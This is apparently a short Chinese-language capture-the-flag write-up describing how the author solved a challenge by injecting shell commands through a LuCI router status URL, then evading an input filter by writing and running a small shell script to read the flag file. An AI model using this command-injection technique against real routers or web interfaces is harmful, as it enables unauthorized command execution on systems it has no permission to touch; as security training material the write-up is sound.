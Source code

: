 # level2-bandwidth_status writeup
## 过程
* 通过提示知道了 URL `http://address/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0` 可以获取 eth0 网卡的宽带信息，因此猜测此题可以构造命令，利用该接口获取flag
  ![eth0](./img/eth.jpg)
* 可以通过`http://address/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(command>output)` 来获取 shell 结果，访问`http://address/cgi-bin/luci/output`来获取结果。
* 一开始输入以下命令不能获取 flag，分析是处理函数对输入进行了过滤
  ```shell
    cd ..
    cd /
    cat flag
    ```
* 最后使用命令编写 shell 脚本，运行脚本获得 flag
  ```shell
    echo cd ..>output.sh
    echo tail flag>>output.sh
    ash output.sh
    ```
![flag](./img/flag.jpg)